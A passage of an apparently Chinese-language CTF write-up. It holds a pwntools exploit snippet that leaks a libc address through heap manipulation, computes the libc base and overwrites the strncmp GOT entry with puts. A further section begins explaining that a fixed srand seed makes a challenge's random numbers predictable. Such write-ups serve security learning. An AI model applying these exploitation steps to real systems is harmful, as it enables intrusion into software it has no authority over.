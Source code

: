 ```py
def secret(target_addr: bytes, content: bytes) -> None:
	p.sendlineafter(b'Enter your choice:',b'6')
	p.sendafter(b'target addr', target_addr)
	time.sleep(SLEEP_TIME)
	p.send(content)
	
add_com(1300)
add_com(1300)
del_com(1)
content = show_com(1)

libc_addr = u64(content[:8]) - 0x21ace0
libc.address = libc_addr
secret(p64(libc.got['strncmp']), p64(libc.symbols['puts']))

print(print_env(2))
```

# [](#header-3)pwn expect_number

观察位于 0x2BEE 的 Continue_Game 函数，当用户输入一个值以后，会根据当前生成的随机数的值，对用户的输入 和 上一次的计算结果 进行加减乘除操作.  
而正巧的是，该随机数的种子是固定的 `srand(1u);` ，因此可以通过计算得知每次生成的随机数是多少. 

![qwb](/image/qwbs8/4.png)  
